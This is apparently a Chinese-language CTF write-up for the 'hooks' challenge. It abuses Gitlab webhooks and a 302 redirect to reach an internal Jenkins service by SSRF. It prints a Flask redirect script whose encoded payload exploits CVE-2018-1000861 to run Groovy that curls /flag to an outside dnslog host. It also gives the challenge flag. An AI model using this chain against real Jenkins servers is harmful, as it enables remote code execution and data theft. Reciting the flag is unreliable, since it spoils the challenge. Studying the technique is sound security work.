


# hooks

## 题目信息
名称：hooks

题目描述: Gateway: http://题目地址/  Intranet jenkins service: http://jenkins:8080/

提示: Please Abuse Gitxxb Webhooks

flag: ACTF{cicd_MX0XKe_security_8o5Agr_is_bsreH3_interesting}

## 题目介绍
某些企业可能会允许Github、Gitlab等SCM的Webhooks访问其内网CI/CD服务，这道题模拟了类似场景。

核心靶标是jenkins服务，存在CVE-2018-1000861漏洞(https://github.com/vulhub/vulhub/tree/master/jenkins/CVE-2018-1000861)。

## 服务分布
- nginx 对外监听80端口 默认拦截所有IP 只放行Github、Gitlab的出口IP 请求会转发给flask服务
- flask 不对外开放端口 只能从nginx转发过来 模拟SSRF漏洞来攻击jenkins服务 同时拦截部分关键词
- jenkins 存在CVE-2018-1000861漏洞 攻击者将/flag中的内容curl到dnslog

## 解题思路
- VPS上部署中转服务
Github及Gitlab发送的Webhooks请求都是POST，但flask模拟的SSRF服务不接受POST请求。Gitlab可以跟随302重定向，这里在VPS部署中转服务，将了来自Gitlab的POST请求转换为GET请求

    ```python
    from flask import Flask, request, redirect

    app = Flask(__name__)

    @app.route('/redirect', methods=['POST'])
    def redi():
        return redirect('http://xxxxx/?redirect_url=http%3A%2F%2Fjenkins%3A8080%2FsecurityRealm%2Fuser%2Fadmin%2FdescriptorByName%2Forg.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript%2FcheckScript%3Fsandbox%3Dtrue%26value%3Dpublic%20class%20x%20%7Bpublic%20x()%7B%22curl%20-X%20POST%20-d%20%40%2Fflag%20http%3A%2F%2Fres.kjczd914.eyes.sh%22.execute()%7D%7D',code=302)

    if __name__ == '__main__':
        app.run(debug=True,host="0.0.0.0")

    ```
- Gitlab添加Webhooks 地址填 http://vps/rediret 发送Webhooks请求


- dnslog收到flag


## 参考
https://www.rsaconference.com/library/Presentation/USA/2023/Abuse%20of%20Repository%20Webhooks%20to%20Access%20Hundreds%20of%20Internal%20CI%20Systems